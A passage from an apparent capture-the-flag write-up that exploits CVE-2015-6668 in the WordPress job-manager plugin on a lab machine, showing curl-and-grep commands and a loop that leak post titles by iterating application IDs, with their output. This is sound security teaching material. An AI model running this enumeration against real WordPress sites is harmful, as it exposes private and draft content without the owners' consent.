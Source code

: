 
That would have saved me some time. This post continues as if I hadn’t found
it.

## Shell as takis

### job-manager Plugin

#### Enumeration

While `wpscan` doesn’t report any vulnerabilities in the job-manager plugin,
this site is job themed, and it’s the only plugin installed. Googling for
`wordpress job-manager exploit`, the first result was [this
link](https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-
wordpress-plugin/). It is a vulnerability in the plugin up to and including
version 0.7.25. `wpscan` is reporting version 7.2.5. That’s much higher, but
also the same digits. I decided to dive in on the exploit and see if it
worked.

#### Exploit Details

When this plugin stores things like an uploaded CV, it stores it in the same
table as posts, just as private data. When this plugin loads, it is getting
the title from item 8 in that table, which is in the url:
`http://10.10.10.10/index.php/jobs/apply/8/`. By changing that number, I can
leak post titles in the database (including draft and private posts). This
information leak is CVE-2015-6668.

The job application page is `http://10.10.10.10/index.php/jobs/apply/8/`, and
I see the title in two places:

![image-20200714115350755](https://0xdfimages.gitlab.io/img/image-20200714115350755.png)

If I change the `8` to a `1`, I get the title associated with the Hello World!
post:

![image-20200714115312742](https://0xdfimages.gitlab.io/img/image-20200714115312742.png)

#### List Post Titles

I can isolate the post title field in the plugin page with `curl`, `grep`, and
`cut`:

    
    
    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $curl -s http://10.10.10.10/index.php/jobs/apply/8/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1
    Job Application: Pen Tester
    

On a clean reset of the box, it looks like there are 13 rows in the database:

    
    
    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $for i in $(seq 1 25); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
    1: Job Application: Hello world!
    2: Job Application: Sample Page
    3: Job Application: Auto Draft
    4: Job Application
    5: Job Application: Jobs Listing
    6: Job Application: Job Application
    7: Job Application: Register
    8: Job Application: Pen Tester
    9: Job Application:
    10: Job Application: Application
    11: Job Application: cube